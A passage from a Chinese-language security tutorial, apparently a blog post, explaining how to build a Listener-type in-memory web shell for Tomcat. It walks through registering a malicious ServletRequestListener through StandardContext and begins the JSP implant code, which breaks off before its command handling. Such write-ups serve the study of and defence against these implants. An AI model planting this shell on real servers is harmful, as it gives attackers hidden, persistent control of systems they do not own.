 因此我们可以通过`addApplicationEventListener()`方法去将我们的恶意类添加到`listener`中进行注册，接下来继续跟着方法往下走
![image-20221027230816656](images/image-20221027230816656.png)

对获取到的`instances`数组遍历并进行实例化，最终调用`requestInitialized()`方法。

接下来就是如何去获取`StandardContext`类，网上可以看到师傅们都挖出了很多种办法，关于`StandardContext`类的调用寻找日后有兴趣再慢慢聊吧。这里取其中一种：`StandardHostValve#invoke()`方法中可以通过`request`对象的`getContext()`方法获取到`StandardContext`类，而 JSP 本身就内置了`request`对象
![image-20221027231340401](images/image-20221027231340401.png)

接下来就是编写 Listener 型内存马
```java
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="org.apache.catalina.core.StandardContext" %><%--
  Created by dotast on 2022/10/27 23:16
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    class ListenerTest implements ServletRequestListener {

        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();

```